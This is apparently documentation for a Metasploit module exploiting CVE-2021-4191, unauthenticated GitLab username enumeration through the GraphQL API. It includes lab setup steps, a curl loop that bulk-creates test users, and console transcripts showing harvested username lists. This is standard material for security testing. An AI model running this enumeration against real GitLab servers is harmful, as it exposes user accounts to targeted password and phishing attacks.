 ## Vulnerable Application

### Description

This module queries the GitLab GraphQL API without authentication to acquire the list of
GitLab users (CVE-2021-4191). The module works on all GitLab versions from 13.0 up to
14.8.2, 14.7.4, and 14.6.5.

Exploitation will result in acquiring a list of valid GitLab usernames.

### Installation

#### GitLab 13.10.2 on Ubuntu 20.04.2 x64

* Download [GitLab 13.10.2](https://packages.gitlab.com/gitlab/gitlab-ce/packages/ubuntu/focal/gitlab-ce_13.10.2-ce.0_amd64.deb)
* Install openssh-server (`sudo apt install openssh-server`)
* Install GitLab (`sudo dpkg -i gitlab-ce_13.10.2-ce.0_amd64.deb`)
* Modify the `external_url` in `/etc/gitlab/gitlab.rb` to something like `external_url http://localhost`
* Run `sudo gitlab-ctl reconfigure`
* Done!

To add a lot of users try something like this:

```
$ set -B
$ for i in {50..250}; do
curl -vv -X POST "http://10.0.0.6/api/v4/users?private_token=TOKEN&email=test$i@test.com&username=test$i&name=test$i&reset_password=True"
done
```

That should create 200 users with names such as "test50", "test51", etc.

## Verification Steps

* Follow the above instructions to install GitLab 13.10.2
* Do: `use auxiliary/scanner/http/gitlab_graphql_user_enum`
* Do: `set RHOST <ip>`
* Do: `run`
* You should get a list of usernames in loot.

## Options

### TARGETURI

Specifies GitLab's base URI. Although an unpopular configuration, GitLab does support use
of a [relative URL](https://docs.gitlab.com/omnibus/settings/configuration.html#configuring-a-relative-url-for-gitlab).

## Scenarios

### GitLab 14.4.1 on Ubuntu 20.04.2 x64. More than 100 users triggers paging logic.

```
msf6 > use auxiliary/scanner/http/gitlab_graphql_user_enum
msf6 auxiliary(scanner/http/gitlab_graphql_user_enum) > set RHOST 10.0.0.6
RHOST => 10.0.0.6
msf6 auxiliary(scanner/http/gitlab_graphql_user_enum) > set RPORT 80
RPORT => 80
msf6 auxiliary(scanner/http/gitlab_graphql_user_enum) > set SSL false
[!] Changing the SSL option's value may require changing RPORT!
SSL => false
msf6 auxiliary(scanner/http/gitlab_graphql_user_enum) > run

[+] Userlist stored at /home/albinolobster/.msf4/loot/20211229065146_default_10.0.0.6_gitlab.users_537462.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/gitlab_graphql_user_enum) > cat /home/albinolobster/.msf4/loot/20211229065146_default_10.0.0.6_gitlab.users_537462.txt
[*] exec: cat /home/albinolobster/.msf4/loot/20211229065146_default_10.0.0.6_gitlab.users_537462.txt

test150
test149
test148
test147
test146
test145
test144
test143
test142
test141
test140
test139
test138
test137
test136
test135
test134
test133
test132
test131
test130
test129
test128
test127
test126
test125
test124
test123
test122
test121
test120
test119
test118
test117
test116
test115
test114
test113
test112
test111
test110
test109
test108
test107
test106
test105
test104
test103
test102
test101
test100
test99
test98
test97
test96
test95
test94
test93
test92
test91
test90
test89
test88
test87
test86
test85
test84
test83
test82
test81
test80
test79
test78
test77
test76
test75
test74
test73
test72
test71
test70
test69
test68
test67
test66
test65
test64
test63
test62
test61
test60
test59
test58
test57
test56
test55
test54
test53
test52
test51
test50
testuser
test39
test35
test34
test33
test32
test31
test30
test29
test28
test27
test26
test25
test24
test23
test22
test21
test20
test18
test19
test17
test16
test15
test14
test13
test12
test11
test10
test9
test8
test7
test6
test5
test4
test3
test2
test1
test
support-bot
alert-bot
root
msf6 auxiliary(scanner/http/gitlab_graphql_user_enum) > 
```

### GitLab 13.10.2 on Ubuntu 20.04.2 x64

```
msf6 > use auxiliary/scanner/http/gitlab_graphql_user_enum
msf6 auxiliary(scanner/http/gitlab_graphql_user_enum) > set RHOST 10.0.0.9
RHOST => 10.0.0.9
msf6 auxiliary(scanner/http/gitlab_graphql_user_enum) > set RPORT 80
RPORT => 80
msf6 auxiliary(scanner/http/gitlab_graphql_user_enum) > set SSL false
[!] Changing the SSL option's value may require changing RPORT!
SSL => false
msf6 auxiliary(scanner/http/gitlab_graphql_user_enum) > run

[+] Userlist stored at /home/albinolobster/.msf4/loot/20211229070855_default_10.0.0.9_gitlab.users_748865.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/gitlab_graphql_user_enum) > cat /home/albinolobster/.msf4/loot/20211229070855_default_10.0.0.9_gitlab.users_748865.txt
[*] exec: cat /home/albinolobster/.msf4/loot/20211229070855_default_10.0.0.9_gitlab.users_748865.txt

root
msf6 auxiliary(scanner/http/gitlab_graphql_user_enum) > 
```
